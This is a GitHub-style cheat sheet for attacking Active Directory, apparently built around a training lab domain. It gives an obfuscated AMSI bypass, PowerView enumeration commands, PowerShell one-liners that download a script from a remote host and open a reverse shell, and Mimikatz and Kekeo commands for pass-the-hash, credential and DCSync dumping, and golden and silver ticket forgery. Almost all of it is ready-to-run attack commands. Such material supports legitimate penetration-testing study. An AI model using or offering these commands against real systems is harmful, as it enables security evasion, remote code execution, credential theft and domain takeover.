 # Active-directory-small-cheatsheet
Small easy to find cheat sheet for Active directory exploitation

**Amsi bypass:-**

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


**Tips**

To input the output of the first command into second command use this powershell technique


`<First command> | %{<Second command> -<argument> $_}
%{} is an alias for ForEach-Object{}
?{} is an alias for Where-Object{}
$_ is variable`


To filter out an object type we can use this technique with pipe.

`?{$_.<object> -eq '<value>’'}`


##Enumeration:-

**To find local admin access:-**

Find-LocalAdminAccess

**To get Domain sid:-**

Get-DomainSID 

Arguments -Domain “domain name”

**To get DC:-**

Get-NetDomainController

Arguments -Domain “domain name”

**To get users in current domain:-**

Get-NetUser

Arguments  -UserName “username”




**To get user properties:-**

Get-UserProperty

Arguments -Properties pwdlastset



**Search for a particular string in a user's attributes:-**

Find-UserField -SearchField Description -SearchTerm ”built”

**To Get all computers:-**

Get-NetComputer -FullData

Many arguments -OperatingSystem -Ping -FullData

**To get groups:-**

Get-NetGroup

Arguments -FullData -Domain

**To get members of a particular group:-**

Get-NetGroupMember -GroupName "Domain Admins"

**To Group Policies**

Get-NetGPO

# Shows active Policy on specified machine
Get-NetGPO -ComputerName <Name of the PC>
Get-NetGPOGroup

**To Get users that are part of a Machine's local Admin group**
Find-GPOComputerAdmin -ComputerName <ComputerName>

**To get OUs:**

Get-NetOU -FullData 
Get-NetGPO -GPOname <The GUID of the GPO>


**Mapping forest:-**

Get-NetForest -Verbose

Get-NetForestDomain -Verbose



**Mapping trust:-**

Get-NetDomainTrust
 
Arguments -Domain

Get-NetForestDomain -Verbose | Get-NetDomainTrust




**Finding Constrained Delegation:-**

Get-DomainUser -TrustedToAuth (Poweview Dev.)


**Finding UnConstrained Delegation:-**

Get-NetComputer -UnConstrained


**To get ACLs**

Get-ObjectAcl -SamAccountName <AccountName> -ResolveGUIDs
Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

**To Search for interesting ACEs**

Invoke-ACLScanner -ResolveGUIDs


##Command Execution techniques for reverse shells.

`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443`

##Mimikatz

**Make ntlm ps-session:-**

Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'



**Dump creds:-**

Invoke-Mimikatz

Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

(dcsync requires 3 permission )


#Tickets

**Inject ticket:-**

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

**Export Tickets:-**

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

**Golden tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

**Silver tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'`

**TGT tkt**

kekeo.exe 
`tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>`

Here the rc4 hash is for the user who is allowed to delegate.

**TGS tkt**

Kekeo.exe

`tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>`







